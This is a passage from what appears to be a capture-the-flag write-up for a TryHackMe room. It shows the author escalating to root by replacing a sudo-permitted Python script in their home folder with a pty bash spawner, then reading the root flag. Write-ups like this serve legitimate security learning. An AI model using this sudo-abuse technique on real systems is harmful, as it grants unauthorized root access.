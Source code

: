 ```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
Looks like we can use python (any variant) on the bak.py file in our home folder. Lets run it and see what happens.
```
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
```
To be honest, I spent a fair time, about an hour trying to see how I could amend the file, with only read access. In the end I tried to delete it and then created a new file, with the same name but this time with an interactive shell hopefully waiting at the other end.
```
meliodas@ubuntu:~$ rm bak.py 
rm: remove write-protected regular file 'bak.py'? yes
meliodas@ubuntu:~$ echo "python -c 'import pty;pty.spawn("/bin/bash")'" > bak.py 
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
  File "/home/meliodas/bak.py", line 1
    python -c 'import pty;pty.spawn(/bin/bash)'
                                              ^
SyntaxError: invalid syntax
meliodas@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
```
I had some issues initially as my bash reverse shell had python in the main line. Once I removed that, it worked fine and I had access to root. Quick cat command later and I had the root flag.
``` 
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cat /root/root.txt
e8c8c6c256c35515d1d344ee0488c617
root@ubuntu:~# 
```
I really enjoyed this challenge, although I need to ensure that my note taking gets better, especially as it really helps me when coming back to complete these rooms for practice.

Thanks go to [stuxnet](https://tryhackme.com/p/stuxnet) for this room. Much appreciated.

Regards

K

<script src="https://tryhackme.com/badge/65208"></script>
